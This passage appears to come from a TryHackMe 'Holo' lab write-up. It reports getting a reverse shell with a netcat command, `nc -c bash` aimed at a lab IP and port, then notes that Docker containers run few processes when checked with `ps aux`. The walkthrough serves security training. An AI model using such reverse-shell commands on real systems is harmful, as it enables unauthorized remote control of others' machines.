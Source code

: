 ![Alt text](/assets/img/tryhackme/Networks/Holo/h9.png) 

With the command `nc -c bash 10.50.103.242 4444`, I was able to get a reverse shell back 

![Alt text](/assets/img/tryhackme/Networks/Holo/h10.png) 


# Docker


Containers, due to their isolated nature, will often have very few processes running in comparison to something such as a virtual machine. We can simply use ps aux to print the running processes. Note in the screenshot below that there are very few processes running?

![Alt text](/assets/img/tryhackme/Networks/Holo/h11.png) 
